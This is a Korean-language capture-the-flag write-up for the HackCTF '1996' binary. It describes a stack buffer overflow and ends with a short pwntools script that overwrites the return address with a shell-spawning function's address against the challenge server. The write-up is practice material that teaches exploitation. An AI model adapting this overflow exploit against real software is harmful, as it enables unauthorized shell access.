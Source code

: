 



# HACKCTF - 1996

---



![image](https://user-images.githubusercontent.com/33051018/68218007-fbb63100-0026-11ea-9f8a-0566ca44e7b1.png)

HackCTF의 1996 문제이다.



### 0x00. Binary Analysis



>![image](https://user-images.githubusercontent.com/33051018/68217849-ac700080-0026-11ea-8316-9d29d3e8962d.png)
>
>해당 파일은 64bit binary이며 동적 링크 방식을 채택하였다.
>
>
>![image](https://user-images.githubusercontent.com/33051018/68218146-3324dd80-0027-11ea-9098-c62b6f00b655.png)
>
>**checksec**을 통해 해당 바이너리에 적용된 메모리 보호기법을 확인해보았다.
>
>NX bit 만 활성화 되어있었다.
>
>일단 한번 실행시켜보도록 한다.
>
>![image](https://user-images.githubusercontent.com/33051018/68218254-5f405e80-0027-11ea-9b9b-b472eb7ad7ce.png)
>
>실행시켰더니 'Which environment variable do you want to read?' 라는 문자열을 출력한 뒤, 입력을 받는다.
>
>그 이후, 입력받은 값 + '='을 출력하는 루틴이다.
>
>이제 소스코드를 살펴보도록 한다.
>
>![image](https://user-images.githubusercontent.com/33051018/68218377-8e56d000-0027-11ea-8cc2-8b8ff3e3c215.png)
>
>디컴파일을 진행한 뒤 main의 모습이다.
>
>'Which env var do you want to read? ' 라는 문자열을 출력하 뒤, `name`변수 값을 입력받는 루틴이다.
>
>Line 16에서 `getenv`를 통해 `name` 변수에 값을 입력받는다. 하지만 입력값에 대한 길이 검증을 진행하지 않기 때문에 **BOF**취약점이 존재한다.
>
>따라서, `getenv`함수가 실행된 이후 복귀할 때의 `Return Address`를 조작할 수 있다.
>
>![image](https://user-images.githubusercontent.com/33051018/68218563-e1308780-0027-11ea-9ed5-e033d53311d3.png)
>
>또한, 해당 바이너리 파일 내부에는 `spawn_shell`이라는 함수가 존재하였다.
>
>이는 이름 그대로 쉘을 띄워주는 루틴을 가진 함수이다. 
>
>따라서, `getenv`를 통해 `BOF`를 시도하여 복귀주소를 spawn_shell 함수의 주소로 overwrite 한다.



###0x01. Exploit

---

>
>```python
>from pwn import *
>
>#p = process('./1996')
>p = remote('ctf.j0n9hyun.xyz', 3013)
>
>shell_func = 0x0000000000400897
>payload = ''
>payload += 'A'*1048
>payload += p64(shell_func)
>
>p.recvuntil('Which environment variable do you want to read? ')
>p.sendline(payload)
>
>p.interactive()
>```
>
>`Exploit Code`는 간단하다.
>
>`getenv`를 통해 값을 입력받을 때, `name` 변수 + 8 크기의 더미를 통해 **SFP**까지 덮고, `ret addr`에 접근하여
>
>`spawn_shell`함수의 주소를 overwrite해준다.

>![image](https://user-images.githubusercontent.com/33051018/68219232-02de3e80-0029-11ea-9964-05c6658e2592.png)

\